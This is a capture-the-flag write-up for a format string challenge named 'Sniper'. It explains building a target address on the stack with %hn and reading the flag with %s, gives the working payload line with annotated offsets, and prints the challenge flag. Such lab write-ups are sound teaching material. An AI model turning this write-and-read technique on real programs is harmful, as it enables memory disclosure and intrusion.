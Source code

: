 # Sniper

Author: `nhwn`

I feel like there's an unlimited supply of format string challenges with this name.

## Solution

This is a format string challenge where the flag is loaded at a constant address; the problem is that it contains newlines, so shipping the address with the payload is not possible. Instead, we can generate the address on the stack at runtime since we're given a leak (this is also possible without a leak, but I decided to make this easier). However, we need to be careful about libc caching format string arguments; if any positional arguments are used, then libc immediately evaluates the format string arguments, which means the newly-generated address won't be observed. As a workaround, we can just specify arguments manually.

This payload writes "0x0a0a" two bytes forward into a zeroed stack variable to form the address with "%hn", then uses "%s" to read the address:
```py
#           1 2 3 4 5 6 7 8 9     10 11
#           V V V V V V V V V     V  V
payload = b"%c%c%c%c%c%c%c%c%2562c%hn%sAAAAA" + p64(leak + 42) + p64(0)
#           ^       ^       ^       ^           ^                ^
#           0       8       16      24          32               40
#           6       7       8       9           10               11
```

flag:
`gigem{you_know_what_maybe_i_should_just_leave_naming_up_to_rng_via_http://ternus.github.io/nsaproductgenerator/}`
